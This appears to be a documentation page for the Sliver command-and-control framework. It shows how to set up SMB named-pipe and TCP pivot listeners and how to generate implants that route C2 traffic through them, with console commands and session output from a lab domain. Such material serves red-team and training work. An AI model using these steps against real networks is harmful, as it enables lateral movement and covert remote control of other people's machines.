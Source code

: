 Pivots in Sliver are used for specifically pivoting C2 traffic, Sliver supports two types of pivot listeners: SMB and TCP pivots.

# SMB named pipe pivot

To start a SMB pivot listener, use the `named-pipe` command from a sliver session:

```
sliver (DELIGHTFUL_TELLER) > named-pipe -h

Start a named pipe pivot listener

Flags:
======
  -h, --help              display help
  -n, --name    string    name of the named pipe
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (DELIGHTFUL_TELLER) > named-pipe --name lol

[*] Listening on \\.\pipe\lol
```

Then, generate a new sliver using the `named-pipe` transport:

```
sliver > generate --named-pipe desk01//./pipe/lol --skip-symbols --save /tmp
```

The format for the `--named-pipe` parameter is `HOSTNAME//./pipe/PIPE_NAME` where:

- `HOSTNAME` is either the IP address, the machine name or the Fully Qualified Domain Name (FQDN) of the host
- `PIPE_NAME` is the same name as the one used in the `named-pipe` command

Once the new sliver runs, you should see something similar to this output:

```
[*] Session #5 YUMMY_C-CLAMP - \\DESK01\pipe\lol (APPSRV01) - windows/amd64 - Thu, 09 Jul 2020 10:54:16 CEST
sliver (FLAT_HUT) > sessions

ID  Name           Transport           Remote Address      Hostname  Username              Operating System  Last Check-in
==  ====           =========           ==============      ========  ========              ================  =============
4   FLAT_HUT       mtls                172.16.20.13:23424  DESK01    CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
5   YUMMY_C-CLAMP  named-pipe (PIVOT)  \\DESK01\pipe\lol   APPSRV01  CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
```

# TCP Pivot

To start a TCP pivot, use the `tcp-pivot` command from a sliver session:

```
sliver (CHUBBY_PAVILION) > tcp-pivot -h

Start a TCP pivot listener

Flags:
======
  -h, --help              display help
  -l, --lport   int       tcp listen port (default: 9898)
  -s, --server  string    interface to bind server to (default: 0.0.0.0)
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (CHUBBY_PAVILION) > tcp-pivot -l 8000 -s 172.16.241.1

[*] Listening on tcp://172.16.241.1:8000
```

Then, use `generate` to create a new sliver that will connect through the pivot:

```
sliver > generate --skip-symbols --tcp-pivot 172.16.241.1:8000

```

Once this new sliver executes, you should see something like this:

```
[*] Session #3 DELIGHTFUL_TELLER - 172.16.241.1:8000 (DESKTOP-0QQJ4JL) - windows/amd64 - Thu, 09 Jul 2020 10:24:05 CEST

sliver > sessions

ID  Name               Transport    Remote Address      Hostname         Username             Operating System  Last Check-in
==  ====               =========    ==============      ========         ========             ================  =============
...
3   DELIGHTFUL_TELLER  tcp (PIVOT)  172.16.241.1:8000   DESKTOP-0QQJ4JL  DESKTOP-0QQJ4JL\lab  windows/amd64     Thu, 09 Jul 2020 10:24:08 CEST
```

